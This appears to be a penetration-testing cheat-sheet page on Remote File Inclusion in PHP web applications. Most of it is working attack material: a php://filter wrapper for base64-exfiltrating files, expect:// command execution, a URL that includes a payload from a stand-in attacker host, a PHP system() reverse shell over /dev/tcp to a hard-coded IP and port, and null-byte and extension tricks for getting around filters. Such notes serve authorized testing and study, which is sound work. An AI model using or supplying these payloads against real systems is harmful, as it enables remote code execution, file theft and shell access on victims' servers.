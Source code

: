 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the victim even if it is not available locally.
---
```


# Remote File Inclusion (RFI)

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```php
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

`php://filter/convert.base64-encode/resource=[FILE]`

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

`ftp://10.10.10.1/AnyFile`

`expect://ls`

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

`http://acme.com/index.php?page=http://attackerserver.com/evil.txt`\
\
This vulnerability can be easily exploited by either using a PHP shell available from `/usr/share/webshells/php`&#x20;

Alternatively, the following commands can be input to a .txt file to obtain code execution:

`<?php echo shell_exec("whoami");?>`

`<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>`

### Notes

As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes)

It is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`

If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.

A dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`
